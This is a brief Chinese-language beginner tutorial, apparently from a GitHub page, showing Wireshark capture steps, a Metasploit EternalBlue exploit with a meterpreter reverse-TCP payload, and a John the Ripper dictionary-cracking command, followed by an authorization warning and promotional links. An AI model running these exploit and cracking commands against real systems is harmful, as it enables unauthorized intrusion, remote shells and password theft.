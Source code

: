 **使用Wireshark捕获网络流量**
1. 打开Wireshark。
2. 选择要监控的网络接口。
3. 点击“开始捕获”按钮。

**使用Metasploit进行简单漏洞利用**
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.1.1
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.2
exploit
```
这将尝试利用目标主机（192.168.1.1）上的EternalBlue漏洞，并建立一个反向TCP连接到攻击者的机器（192.168.1.2）。

**使用John the Ripper破解密码**
```bash
john --wordlist=/path/to/wordlist.txt /path/to/hashed_passwords.txt
```
这将使用指定的字典文件尝试破解存储在`hashed_passwords.txt`文件中的哈希密码。

请注意，使用这些工具进行安全测试时，必须确保你有适当的授权，未经授权的测试可能违反法律和道德规范。
### 后记
![1 PPT专用](https://github.com/user-attachments/assets/bf4a757f-f97d-4360-b79d-2c383d439b2a)
本技术由 “乐乐 电脑科学”提供，乐乐 电脑科学为计算机科技做贡献，乐乐 电脑科学提供教程，资源，计算机问题服务，本次贡献者
（乐乐，）
### 乐乐ti电脑科学 bilibili：
### [【点击访问【乐乐电脑科学】bilibili账号】](https://space.bilibili.com/1768832152?spm_id_from=333.337.0.0)

### 加入我们：
### [【点击加入我们】](https://github-production-user-asset-6210df.s3.amazonaws.com/171937997/374119434-6337df30-b023-413f-972f-abe938fe8a55.jpg?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAVCODYLSA53PQK4ZA%2F20241007%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20241007T120548Z&X-Amz-Expires=300&X-Amz-Signature=abcbefcb5f5fe319c5c6c783c738a175cb4e2cf979802d4f818b0d80eef250cd&X-Amz-SignedHeaders=host)
技术支持捐赠：
### [【点击捐赠】](https://github.com/user-attachments/assets/a4b02915-3f60-4130-8b1a-04d679bee452)
